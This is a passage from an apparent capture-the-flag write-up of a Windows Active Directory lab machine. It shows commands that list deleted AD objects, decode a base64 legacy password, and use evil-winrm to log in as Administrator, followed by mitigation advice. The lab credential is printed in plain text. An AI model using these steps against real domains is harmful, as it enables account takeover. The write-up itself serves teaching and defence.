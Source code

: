 Additonally, we learned that `TempAdmin` was "recycled" and had the same password as the Administrator. [Poweradmin](https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/) has a great article on how to restore or view objects that had been deleted using the AD recycle bin.

In our `WinRM` shell, let's run the following command, which should display the objects that have been deleted.


```
> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
[...]
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
[...]
```

A little ways down, we can see the object `TempAdmin` and a field `cascadeLegacyPwd`. We know from earlier that the password is `base64` encoded, let's grab it and decode it.

```
$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Now let's see if the Administrator password hasn't been changed. We'll attempt connection with our newly acquired password.

```
$ evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
```

Success! Let's grab the root flag off the Administrator desktop.

![](images/root-flag.png)

***

### Mitigation

- Strong password policies are important and must be enforced. A user should be required to change a legacy password, and if the user account is no longer in use for that not to occur, than account management should result in disabling the account and/or remove privileges.

- Avoid using the same password across multiple accounts, especially the one used by the Administrator. It may be convenient, but it exposes the account to risk. In this specific scenario with `TempAdmin`, simply changing the password after the migration or using a password with just one different character may have prevented an attack.
